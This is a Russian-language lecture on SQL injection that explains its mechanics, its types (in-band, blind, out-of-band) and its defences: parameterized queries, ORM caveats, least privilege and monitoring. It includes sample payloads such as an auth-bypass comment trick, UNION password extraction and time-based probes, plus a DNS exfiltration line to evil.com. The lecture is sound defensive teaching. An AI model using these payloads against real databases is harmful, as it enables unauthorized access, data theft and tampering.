

## 1. Что такое SQL Injection

В 1950-х годах Джон фон Нейман сформулировал фундаментальный принцип современной вычислительной техники: программы и данные хранятся в одной и той же памяти. Это величайшее инженерное открытие породило всю индустрию программирования, но одновременно заложило первородный грех компьютерной безопасности: процессор не может отличить инструкцию от числа, если они лежат в соседних ячейках памяти.

**SQL-инъекция (SQL Injection, SQLi)** — это точное повторение этой дилеммы в прикладном слое баз данных. 

OWASP определяет SQLi как вставку или «инъекцию» SQL‑запроса через входные данные от клиента к приложению. Классический сценарий развивается по фатальной цепочке:
- Приложение формирует текст SQL-запроса через конкатенацию строк или интерполяцию пользовательского ввода.
- Злоумышленник передает специальным образом сконструированную строку, содержащую служебные метасимволы SQL (кавычки, точки с запятой, символы комментариев, ключевые слова `OR`, `UNION`).
- Грамматический парсер СУБД добросовестно разбирает эту строку как единое синтаксическое дерево (AST). Входные данные перестают быть пассивными литералами и превращаются в исполняемые инструкции.
- СУБД выполняет модифицированный запрос с привилегиями приложения, что позволяет:
  - Несанкционированно читать, изменять или безвозвратно удалять конфиденциальные данные.
  - Полностью обходить механизмы аутентификации и авторизации.
  - Выполнять опасные административные и системные команды (например, `shutdown`, чтение локальных файлов сервера через `load_file()`, вызов системных утилит ядра ОС).

```mermaid
flowchart TD
    subgraph Vulnerable["Небезопасный путь (Строковая конкатенация)"]
        UserBad["Ввод: admin' --"] --> Concat["query := 'SELECT ... WHERE u=' + user"]
        Concat --> RawSQL["SELECT ... WHERE u = 'admin' --' ..."]
        RawSQL --> Lexer["Лексический парсер СУБД"]
        Lexer --> BrokenAST["Искаженное AST: Условие пароля отброшено в комментарий!"]
        BrokenAST --> ExecBad["Несанкционированный вход под admin"]
    end

    subgraph Secure["Безопасный путь (Prepared Statement)"]
        UserGood["Ввод: admin' --"] --> Driver["Драйвер Go (database/sql / pgx)"]
        SQLTemplate["SELECT ... WHERE u = $1 AND p = $2"] --> Parser["Парсер СУБД: компиляция чистого AST"]
        Parser --> FixedPlan["Зафиксированный план выполнения (Execution Plan)"]
        Driver -->|"Бинарный протокол (Bind)"| BindParam["Параметр $1 = 'admin\' --' (Литерал)"]
        BindParam --> FixedPlan
        FixedPlan --> ExecGood["Честный поиск пользователя с именем 'admin\' --'"]
    end

    classDef vuln fill:#1e293b,stroke:#f43f5e,stroke-width:1px,color:#f8fafc;
    classDef sec fill:#1e293b,stroke:#34d399,stroke-width:1px,color:#f8fafc;
    class Vulnerable,UserBad,Concat,RawSQL,Lexer,BrokenAST,ExecBad vuln;
    class Secure,UserGood,Driver,SQLTemplate,Parser,FixedPlan,BindParam,ExecGood sec;
```



---

## 2. Типичные сценарии и примеры

### 2.1. Простая инъекция в авторизации

Рассмотрим классический пример опасного кода, написанного без использования параметризации:

```python
# небезопасно
login = request.POST['login']
password = request.POST['password']

query = "SELECT * FROM users WHERE login = '" + login + "' AND password = '" + password + "'"
```

В Go аналогичная смертельная ошибка выглядит как безобидный вызов `fmt.Sprintf`:
```go
// ❌ Смертельно опасно в Go:
query := fmt.Sprintf("SELECT * FROM users WHERE login = '%s' AND password = '%s'", login, password)
rows, err := db.QueryContext(ctx, query)
```

Если злоумышленник передает входные данные:
- `login = "admin' --"`
- `password = "anything"`

Результирующий текст запроса, поступающий в парсер СУБД, принимает вид:
```sql
SELECT * FROM users
WHERE login = 'admin' --' AND password = 'anything'
```

Символы `--` в стандарте SQL означают начало однострочного комментария. Все последующие токены запроса, включая проверку пароля, отбрасываются лексическим анализатором! СУБД выполняет выборку первой строки, где `login = 'admin'`, проверка пароля полностью отключается, и злоумышленник входит в систему с правами администратора.

### 2.2. Извлечение данных через `UNION`

Оператор `UNION` позволяет объединить результаты двух независимых запросов `SELECT` в единый результирующий набор данных:

```sql
SELECT id, title FROM articles WHERE id = '1'
UNION SELECT id, password FROM users --
```

Если уязвимый HTTP-эндпоинт выводит на экран заголовок статьи, атакующий получает возможность поэтапно вытащить хэши паролей, персональные данные (PII) и номера платежных карт из любой системной или прикладной таблицы базы данных, к которой у пользователя СУБД есть доступ на чтение.

### 2.3. Изменение данных

Инъекции в операторах модификации (`UPDATE`, `DELETE`) приводят к необратимому искажению или разрушению целостности данных:

```sql
UPDATE users SET email = 'hacker@evil.com'
WHERE id = 1; --
```

При успешной инъекции в запрос с возможностью выполнения нескольких операторов (Stacked Queries) атакующий может:
- менять балансы счетов, роли и административные флаги пользователей;
- удалять ключевые таблицы (`DROP TABLE users`);
- создавать новых пользователей с правами суперпользователя и т.п.

---

## 3. Виды SQL‑инъекций

В классификации безопасности выделяют три основных семейства SQL-инъекций, различающихся способом извлечения данных из атакуемой системы:

### 3.1. Классические (in-band)

Входные данные инъекции и извлеченные данные передаются по одному и тому же сетевому каналу (HTTP-ответ веб-сервера):

- **Error-based** — ошибки СУБД выводятся пользователю, и по их тексту злоумышленник подбирает структуру запроса. Например, принудительный вызов ошибки конвертации типов (`CAST((SELECT secret FROM keys) AS integer)`) заставляет сервер базы вернуть секрет прямо в сообщении об ошибке: `ERROR: invalid input syntax for integer: "my_secret_token"`.
- **UNION-based** — атакующий объединяет свой запрос с основным через `UNION` и читает данные непосредственно в теле HTML/JSON-ответа.

### 3.2. Blind (слепые) инъекции

Прямого вывода данных нет: веб-сервер возвращает стандартную страницу ошибки (например, generic HTTP 500 или 200 OK без деталей), но:

- приложение по‑разному отвечает на `true/false` условия;
- либо меняется время ответа при искусственно вызванных задержках.

OWASP выделяет два ключевых подвида слепых инъекций:

- **Boolean-based blind** — по разному содержимому страницы можно понять, истинно ли условие. Злоумышленник побитово угадывает символы секретной строки: `AND SUBSTRING(password, 1, 1) = 'a'`. Если символ угадан верно, страница загружается штатно («Товар найден»), если нет — возвращается «Товар не найден».
- **Time-based blind** — условие с `SLEEP()` / `WAITFOR` и т.п.; по задержке ответа делается вывод об истинности условия. Если первый бит секрета равен 1, СУБД выполняет команду засыпания на 5 секунд (`pg_sleep(5)` в PostgreSQL, `SLEEP(5)` в MySQL или `WAITFOR DELAY '0:0:5'` в MS SQL). Замеряя сетевое время ответа сервера, атакующий посимвольно эксфильтрует данные со скоростью несколько символов в минуту.

### 3.3. Out-of-band

Используются внешние каналы: DNS, HTTP‑запросы, почта и т.д., если СУБД может инициировать запросы наружу. Часто применяются, когда прямого вывода нет, а blind‑инъекция слишком медленная. Например, заставляя PostgreSQL или Oracle выполнить резолвинг DNS-имени вида `SELECT sys_eval('nslookup ' || password || '.evil.com')`, атакующий считывает секретные данные в логах своего собственного DNS-сервера.

---

## 4. Почему SQLi до сих пор актуален

Несмотря на то, что природе SQL-инъекций уже более четверти века, они неизменно входят в топ рейтингов уязвимостей (OWASP Top 10):

- Ошибки в коде: конкатенация строк, динамический SQL без параметров в legacy-коде.
- ORM и фреймворки не гарантируют безопасность: в них тоже находят уязвимости и небезопасные паттерны при использовании методов сырых запросов (`db.Raw()`, `db.Exec()`).
- Legacy‑код, самописные движки, «быстрые» решения без фреймворков и спешка при разработке стартапов.
- SQLi стабильно входит в топ уязвимостей по OWASP и другим обзорам, оставаясь одним из самых дешевых и разрушительных векторов атак.

---

## 5. Основные меры защиты

### 5.1. Parameterized queries / prepared statements

Главный способ защиты, рекомендуемый OWASP: **не строить SQL как строку, а использовать параметры**.

> [!info] Под капотом: Механическое разделение AST и бинарного протокола
> С точки зрения компилятора СУБД, выполнение запроса состоит из этапов:
> 1. Лексический анализ (Lexing / Scanning): разбиение строки на токены (`SELECT`, `FROM`, `IDENTIFIER`, `LITERAL`).
> 2. Синтаксический анализ (Parsing): построение абстрактного синтаксического дерева (AST).
> 3. Планирование и оптимизация (Cost-based Optimizer).
> 4. Исполнение плана (Execution).
>
> При параметризованном запросе фазы 1 и 2 выполняются **до** того, как значения параметров передаются в базу данных. В протоколе PostgreSQL на сетевом уровне отправляются две разные команды: сообщение `Parse` (содержит SQL с позиционными маркерами `$1`, `$2`) и сообщение `Bind` (содержит сырые бинарные значения параметров). Значения из сообщения `Bind` подставляются непосредственно в исполнитель плана, минуя лексер и парсер! Взломщик может передать любые спецсимволы, кавычки и команды `DROP TABLE` — для СУБД они останутся лишь последовательностью байт текстового поля.

Примеры безопасного кода в различных языках и экосистемах:

- **Go (`database/sql` и `pgx`):**
```go
// ✅ Безопасно в Go: параметры передаются через бинарный протокол
query := "SELECT id, name, email FROM users WHERE login = $1 AND password_hash = $2"
rows, err := db.QueryContext(ctx, query, login, hash)
```

- **Python (psycopg2 / SQLAlchemy core):**
```python
# безопасно
cursor.execute(
    "SELECT * FROM users WHERE login = %s AND password = %s",
    (login, password)
)
```

- **Java (JDBC):**
```java
PreparedStatement stmt = conn.prepareStatement(
    "SELECT * FROM users WHERE login = ? AND password = ?"
);
stmt.setString(1, login);
stmt.setString(2, password);
```

- **PHP (PDO):**
```php
$stmt = $pdo->prepare('SELECT * FROM users WHERE login = :login AND password = :password');
$stmt->execute(['login' => $login, 'password' => $password]);
```

СУБД сама экранирует и типизирует параметры, поэтому даже если в `login` будет `' OR '1'='1`, это не изменит логику SQL.

### 5.2. ORM и Query Builder

Использование ORM (Django ORM, Hibernate, EF Core, GORM в Go и др.) не даёт иммунитета, но:
- существенно уменьшает количество ручного написания SQL-кода;
- снижает вероятность «забыть про параметры».

При этом критически важно:
- категорически избегать raw‑запросов с конкатенацией внутри методов ORM;
- внимательно работать с native SQL, HQL, JPQL и т.п., где возможна инъекция, если подставлять параметры в строку.

### 5.3. Хранимые процедуры

Хранимые процедуры могут:
- инкапсулировать логику доступа;
- ограничить операции, которые может выполнять приложение.

Но помните:
- процедуры сами по себе не защищают от SQLi, если внутри них есть динамический SQL с конкатенацией (например, вызовы `EXECUTE format('SELECT ... %s', user_input)` в PL/pgSQL);
- их нужно писать с параметрами, а не формировать SQL как строку.

### 5.4. Валидация и whitelist входных данных

- Проверять, что формат данных строго соответствует ожидаемому (id — целое число, email — валидный regex, enum — только разрешенные константы).
- Использовать whitelist (разрешённые значения) вместо blacklist.

Валидация — **дополнительный слой**, а не замена параметризованным запросам.

### 5.5. Принцип минимальных привилегий (least privilege)

Ограничить учётную запись приложения на уровне сервера СУБД:
- только нужные таблицы и представления (Views);
- только нужные операции (SELECT, INSERT, UPDATE, DELETE, но не DDL-команды `CREATE`, `DROP`, `ALTER`);
- запрет на файловые операции (`COPY FROM PROGRAM`, `pg_read_file`), системные процедуры и доступ к системным каталогам.

Это кардинально уменьшает радиус поражения (**blast radius**) при успешной инъекции: даже если злоумышленник пробьет код, он не сможет выполнить `DROP TABLE` или прочитать файлы операционной системы.

### 5.6. Изоляция и архитектура

- Выносить чувствительные данные в отдельные схемы или независимые физические базы данных ([[20. Безопасность БД]]).
- Использовать отдельные учетные записи для разных сервисов и микросервисов.
- Ни при каких обстоятельствах не соединяться с БД под системными пользователями `root`, `sa` или `postgres` из прикладного кода.

---

## 6. Defense in depth: уровень архитектуры БД

Эшелонированная оборона (Defense in Depth) предполагает, что защита строится на всех уровнях прохождения пользовательского запроса:



На каждом уровне:
- **App level**: валидация, whitelist, использование ORM/параметризованных запросов, статический анализ кода (`gosec`).
- **DB user**: минимальные права доступа (только DML без DDL).
- **Schema**: ограничение доступа к критичным данным, шифрование колонок, Row-Level Security.
- **Monitoring**: логирование аномальных запросов, алерты на типичные паттерны SQLi в `pg_stat_statements` и `pgaudit`.

---

## 7. Типичные ошибки и мифы

1. **«Достаточно экранировать кавычки»**  
   Экранирование вручную ненадёжно: есть разные контексты, кодировки, не только кавычки, но и другие спецсимволы. В кодировке `GBK` или `BIG5` внедрение байта `0xbf` в сочетании с одинарной кавычкой способно «съесть» экранирующий слэш (байтовое поглощение `0xbf5c`), превратив безопасную строку в исполняемую инъекцию. OWASP прямо рекомендует не писать собственные «эскейп‑функции» вместо параметров.

2. **«ORM полностью защищает от SQLi»**  
   Есть CVE и реальные атаки через raw‑запросы, небезопасные HQL/JPQL, динамический SQL внутри фреймворков. Вызов `db.Where(fmt.Sprintf("name = '%s'", name))` в популярной Go ORM GORM столь же смертельно уязвим, как и обычный вызов в `database/sql`.

3. **«Хранимые процедуры решают проблему»**  
   Если внутри процедуры динамический SQL с конкатенацией, инъекция возможна. Важно: **безопасный код внутри**, а не просто наличие процедур.

4. **«Нужно шифровать все данные, чтобы защититься от SQLi»**  
   Шифрование уменьшает последствия утечки, но не защищает от инъекций как таковых. Атакующий может всё равно выполнить `DROP TABLE`, изменить данные и т.д.

---

## 8. Практические шаги для архитектора и DBA

1. **Проверить весь код, использующий динамический SQL**:
   - поиск конкатенации пользовательского ввода в запросах с помощью линтеров (`gosec -include=G201,G202 ./...`);
   - повсеместная замена на параметризованные запросы или проверенный ORM.

2. **Настроить права доступа**:
   - отдельный DB‑пользователь для приложения;
   - строгий запрет на выполнение `DROP`, `TRUNCATE`, `GRANT`, системных и файловых функций СУБД.

3. **Внедрить мониторинг**:
   - логировать ошибки СУБД в централизованную систему (Loki / ELK);
   - настроить алертинг на аномально частые ошибки синтаксиса и типичные паттерны (`OR 1=1`, `UNION SELECT`, `SLEEP` и т.д.).

4. **Обучить разработчиков**:
   - документ OWASP Cheat Sheet по SQLi должен быть включен в стандарты внутренней разработки;
   - обязательное проведение peer code review с фокусом на конструирование SQL‑запросов.

5. **Регулярно тестировать**:
   - использовать SAST/DAST инструменты в пайплайнах CI/CD;
   - проводить регулярное тестирование на проникновение по стандарту OWASP Testing Guide.

---

## Ловушки и вопросы с собеседований

> [!tip] Собеседование
> **Вопрос:** Мы используем подготовленные выражения (`db.QueryContext(ctx, "SELECT ... WHERE id = $1", id)`), но нам нужно дать пользователю возможность динамически выбирать колонку для сортировки (`ORDER BY`) и направление (`ASC`/`DESC`). Почему нельзя написать `ORDER BY $1 $2` и как решить эту задачу абсолютно безопасно?
> 
> **Ответ:** 
> 1. Спецификация SQL и компилятор СУБД в подготовленных выражениях разрешают параметризовать только **литералы данных** (константы). Имена идентификаторов (таблицы, колонки) и управляющие ключевые слова (`ASC`, `DESC`) определяют саму структуру дерева синтаксического разбора (AST) и план выполнения. Подстановка `$1` в позицию имени колонки превращает запрос в сортировку по строковой константе, а не по значению столбца.
> 2. **Безопасное решение:** Использование строгого белого списка (Whitelist Map) в коде Go:
> ```go
> var allowedColumns = map[string]string{
>     "price": "product_price",
>     "rating": "average_rating",
>     "date": "created_at",
> }
> 
> dbCol, exists := allowedColumns[userInputColumn]
> if !exists {
>     dbCol = "created_at" // Безопасный дефолт
> }
> 
> orderDir := "ASC"
> if strings.ToUpper(userInputDirection) == "DESC" {
>     orderDir = "DESC"
> }
> 
> // Безопасно: конкатенируются только проверенные значения из whitelist
> query := fmt.Sprintf("SELECT id, title FROM products ORDER BY %s %s", dbCol, orderDir)
> ```

> [!warning] Ловушка / Gotcha: Инъекции второго порядка (Second-Order SQLi)
> Злоумышленник передает опасную полезную нагрузку (`admin' --`), которая корректно и безопасно сохраняется в базе данных через параметризованный `INSERT`. 
> 
> Ловушка захлопывается позже: если другой сервис или фоновый воркер вычитывает эту строку из базы и конкатенирует ее в следующий динамический SQL-запрос без параметров, происходит отложенная инъекция второго порядка! Данные, извлеченные из базы данных, **нельзя** считать доверенными.

---

## 9. Резюме

- SQL Injection — классическая, фундаментальная, но до сих пор массовая архитектурная уязвимость.
- Главная защита: **parameterized queries / prepared statements** и полный отказ от конкатенации SQL-строк.
- Дополнительные слои обороны: входная валидация, аккуратное использование ORM, хранимые процедуры, принцип минимальных привилегий, изоляция данных и мониторинг.
- Защита должна быть органично заложена в архитектуру приложения и СУБД с самого первого дня, а не добавляться наспех внешними патчами.

Подробное разграничение прав доступа и ролевые модели мы рассмотрим в следующей лекции: [[22. RBAC в БД]].